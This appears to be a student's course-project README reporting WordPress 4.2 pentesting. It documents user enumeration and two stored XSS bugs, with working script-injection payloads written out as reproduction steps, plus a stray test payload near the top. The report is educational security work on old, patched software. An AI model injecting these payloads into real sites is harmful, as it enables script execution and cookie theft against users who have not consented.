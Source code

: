 # Project 7 - WordPress Pentesting

Time spent: **17** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

test <a src=test onerror=alert(document.cookie)>

1. User Enumeration
  - [x] Summary: 
    - Vulnerability types: User Enumeration
    - Tested in version: 4.2
    - Fixed in version: Not yet fixed
  - [x] GIF Walkthrough: 
    - <img src='https://github.com/eunik/Project7/GIFS/enumeration.gif'>
  - [x] Steps to recreate: 
    - Add an API request on the end of the site URL:
	```/your-site-url/?author=#```
	- The number represents the index of the user.
	- Then checkout the web and you will see popups.
  - [x] Affected source code:
    - Your theme's functions.php file.
	- Your site’s root .htaccess file.

2. Authenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [x] GIF Walkthrough: 
    - <img src='https://github.com/eunik/Project7/GIFS/XSS.gif'>
  - [x] Steps to recreate: 
    - Create a new post.  
	- Add the following script at the end of your title:  
	```<img src=test onerror=alert(document.cookie)>```
	- Then checkout the web and you will see popups.
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/33360)

3. Unauthenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [x] GIF Walkthrough: 
    - <img src='https://github.com/eunik/Project7/GIFS/XSS2.gif'>
  - [x] Steps to recreate: 
    - Comment the following in a page/post:
	```<a title='x onmouseover=alert(unescape(/Unauthenticated%20Stored%20Cross-Site%20Scripting/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  ######random characters to make it over 64KB#####'></a>```
	- You should be able to see a pop-up.
  - [x] Affected source code:
    - [Link 2](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-content/themes/twentyfifteen/genericons/example.html?rev=32282#L309)




## Assets

[WPSeed](https://github.com/flurinduerst/WPSeed/blob/master/README.md)

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

I wasn't able to actually create a permalink.
I am suspecting it was due to the fact that PS didn't have the permission to create a cache folder in my Windows OS root directory.  
The work around for the above situation was to install WPSeed packet with npm, nodejs and gulp.  
For some reason some xss commands do not work, but others did which worked out.

## License

    Copyright [2018] [Eun Il Kim]
